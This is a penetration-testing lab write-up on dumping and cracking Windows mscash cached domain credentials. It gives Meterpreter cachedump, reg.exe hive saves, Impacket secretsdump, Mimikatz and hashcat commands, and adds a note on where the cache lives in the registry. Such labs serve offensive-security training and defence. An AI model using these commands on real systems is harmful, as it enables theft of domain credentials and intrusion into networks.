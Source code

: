 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```
hashdump
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-59-09.png)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-53-09.png)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-56-47.png)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-57-28.png)

### Mimikatz

```
lsadump::cache
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-32-15.png)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-54-29.png)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-57-55.png)

## Where Are Domain Credentials Cached

This can be seen via regedit (running with SYSTEM privileges) in the following key:

```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-03-15.png)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-10-00.png)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}



